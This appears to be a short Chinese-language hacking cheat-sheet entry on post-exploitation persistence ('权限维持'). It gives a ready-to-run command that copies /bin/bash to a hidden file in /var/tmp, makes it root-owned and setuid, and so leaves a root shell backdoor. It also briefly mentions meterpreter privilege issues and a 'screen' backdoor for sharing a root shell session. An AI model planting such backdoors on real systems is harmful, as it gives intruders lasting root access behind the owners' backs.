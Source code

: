 # 权限维持

hide bash privilege escalate

```
 or 6755  or /bin/dash
 cp /bin/bash /var/tmp/.test; chown root:root /var/tmp/.test; chmod 4755 /var/tmp/.test
 拿 4755  权限spawn 的 meterpreter 会存在问题 权限不完全
```

screen backdoor   hackthebox backdoor   :   share root shell session



